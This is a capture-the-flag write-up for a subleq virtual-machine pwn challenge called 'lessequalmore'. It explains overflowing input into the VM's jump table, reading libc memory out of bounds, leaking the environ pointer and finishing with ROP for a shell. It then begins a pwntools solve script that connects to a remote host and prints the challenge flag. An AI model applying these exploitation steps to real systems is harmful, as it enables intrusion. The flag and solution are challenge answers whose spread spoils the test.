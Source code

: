 Our input are read in a readline like fasion, and put at the start of the memory section. Naturally, you cover overflow the program and write into the jump table, thereby controlling the program counter within the VM. If you put the shellcode in your input, you can jump to your own input and execute arbitrary subleq code.

### Leaking Addresses and RCE
Since we know that the program memory is malloc with a large chunk, the program will allocate the chunk using mmap, putting it at a fix offset to libc. The vm have an issue that it does check if the memory is out of bound before reading and writing, therefore we can read arbitrary value from the libc.

One path is to leaverage the environment pointer in libc. We can calculate the offset of environ pointer to our chunk, and read the value into a controlled memory location. However, to utilize the value, we need a method to deference the pointer. Since each subleq value is 8 byte, we need to divide the value we get by 8 before using that as the index to the stack. It actually took me longer to divide the value than all the other steps combined.  The other path is to overwrite the stdout structure to leak value, and use subleq shellcode to read value back. 

After you leak the value, you just overwrite the return pointer and do ROP, and that's your shell!

### Solve script
{% capture solve_py %}
```
#!/usr/bin/python3
from pwn import *

elf = ELF("./lessequalmore_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = elf
context.terminal = ["tmux", "splitw", "-h"]

#p = process(["./lessequalmore_patched", "../dist/chal.txt"])
p = remote("34.81.247.217", 11111)


def send_int(n):
    if n >= 0:
        p.sendline(f"%{n}")
    else:
        n+=(1<<64)
        p.sendline(f"%{n}")

def send_ints(ns):
    for i in ns:
        send_int(i)

def send_str(s):
    for i in s:
        send_int(ord(i))

flag = "hitcon{r3vErs1ng_0n3_1ns7ruction_vm_1s_Ann0ying_c9adf98b67af517}"
# 64+1 -> input
# 16+1 -> buf
# 64 -> target
# 20+1 -> prompt
# 12+1 -> prompt2
# 27+1 -> win
# 18+1 -> lose
padding = sum([64+1, 16+1, 64, 20+1, 12+1, 27+1, 18+1])
mem = 1024
print(padding)
#send_str("\x00"*(64+1+16+1+64+20+1))
```